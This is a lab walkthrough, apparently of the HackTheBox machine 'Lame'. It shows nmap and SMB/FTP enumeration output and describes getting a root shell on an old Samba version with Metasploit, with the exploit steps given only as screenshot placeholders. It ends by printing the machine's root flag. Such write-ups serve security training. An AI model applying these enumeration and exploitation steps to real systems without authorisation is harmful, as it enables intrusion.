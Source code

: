 
# LAME
---
## Getting Started
---
Use command to set Target IP
```bash
IP='10.10.10.3' ; echo $IP
```

Use command to set Target IP
```bash
HIP="$(ifconfig tun0  | grep -Eo 'inet (addr:)?([0-9]*\.){3}[0-9]*' | grep -Eo '([0-9]*\.){3}[0-9]*' | grep -v '127.0.0.1')" ; echo $HIP

```
---
## Enumeration
---
### NMAP
---
Nmap Command Ran
```bash
nmap -p- $IP -Pn
```

Results
```bash
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3632/tcp open  distccd


```

Nmap Command Ran
```bash
nmap -sV -v -sC $IP  -Pn -p 21,22,139,445,3632
```

Results
```bash
ORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.19
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba -Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2022-10-13T19:26:53-04:00
|_clock-skew: mean: 1h59m40s, deviation: 2h49m43s, median: -20s
```

**Findings**

FTP can be logged into anonymously. 

### FTP enumeration
```
Connected to 10.10.10.3.
220 (vsFTPd 2.3.4)
Name (10.10.10.3:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||14211|).
150 Here comes the directory listing.
226 Directory send OK.

```

Send the information to a a listening port 

>The server received the EPSV command. The server successfully opened a data socket, and is listening on the socket. The IP address associated with the listening socket is the same as the IP address used for the control connection.
>port_number is the port number associated with the listening data socket.
>**System action**
>The FTP server continues processing commands on the control connection. The server expects the client to create a data socket and connect it to the IP address of the control connection and port number indicated in the EPSV reply.

Used `ls -al` and now files shown.

```bash
ftp> pwd
Remote directory: /

```

### SMB enumeration

Command
```bash
smbmap -H $IP 
```

Result
```bash
[+] IP: 10.10.10.3:445  Name: 10.10.10.3                                        
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        tmp                                                     READ, WRITE     oh noes!
        opt                                                     NO ACCESS
        IPC$                                                    NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$                                                  NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))

```

**Findings**
I may have read/write access to tmp 
couldnt do anything with is

---
## Foothold
---
Research the version of samba. Find a CVE on search 

![[Pasted image 20221013202916.png]]

Use metasploit 

>![[Pasted image 20221013203110.png]]

Set RHOST and LHOST and EXPLOIT

>![[Pasted image 20221013203403.png]]

get shell

```bash
ls
bin
boot
cdrom
dev
etc
home
initrd
initrd.img
initrd.img.old
lib
lost+found
media
mnt
nohup.out
opt
proc
root
sbin
srv
sys
tmp
usr
var
vmlinuz
vmlinuz.old
```

cd to root. see root.txt. cat it. found flag
```bash
cd /root
ls
Desktop
reset_logs.sh
root.txt
vnc.log
cat root.txt
809abbfb56b34b3816a22a1d58e07a59
```


---
## Flags
root.txt
```bash
809abbfb56b34b3816a22a1d58e07a59
```

---
## Tags
---
#metasploit #samba